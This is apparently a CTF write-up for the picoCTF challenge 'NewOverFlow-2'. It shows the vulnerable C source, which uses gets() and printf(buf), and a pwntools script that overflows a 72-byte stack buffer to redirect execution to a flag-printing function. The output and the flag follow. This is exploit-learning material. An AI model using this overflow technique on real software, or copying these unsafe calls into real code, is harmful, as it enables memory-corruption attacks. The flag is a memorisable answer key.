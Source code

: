 # NewOverFlow-2 - Points: 250
<b>Description : </b>Okay now lets try mainpulating arguments. program. You can find it in /problems/newoverflow-2_4_2cbec72146545064c6623c465faba84e on the shell server. Source.<br>
<b>Hints : </b>Arguments aren't stored on the stack anymore ;)
# Solved
Source
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }
}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}
```
This challenge is similar to the previous challenge, but here is a new function
```cpp
void win_fn1(unsigned int arg_check)
void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3)
void win_fn()
```
Meanwhile, there is function <b>flag</b> to read flag easier. So i decided using previous script solving this
```python
from pwn import *

p = process("./vuln")

# First Payload into function main execute
# 00 00 00 00 00 40 07 e8 <main>
payload = "A" * 72 + "\xce\x08\x40\x00\x00\x00\x00\x00"
p.sendlineafter("Welcome", payload)
log.info("Payload into function <main> Done")

# Last Payload into function flag to execute
# 00 00 00 00 00 40 07 67 <flag>
payload = "A" * 72 + "\x4d\x08\x40\x00\x00\x00\x00\x00"
p.sendlineafter("Welcome", payload)
log.info("Payload into function <flag> Done")

print p.recvall()
```
```
[+] Starting local process './vuln': pid 567052
[*] Payload into function <main> Done
[*] Payload into function <flag> Done
[+] Receiving all data: Done (79B)
[*] Process './vuln' stopped with exit code -11 (SIGSEGV) (pid 567052)
 to 64-bit. Can you match these numbers?
picoCTF{r0p_1t_d0nT_st0p_1t_df73a1da}
```
<b>*Edit</b>: There is some technic to solving this with <b>ROP (Return Oriented Programming)</b> https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/NewOverFlow-2.md<br>
Flag : <b>picoCTF{r0p_1t_d0nT_st0p_1t_df73a1da}</b>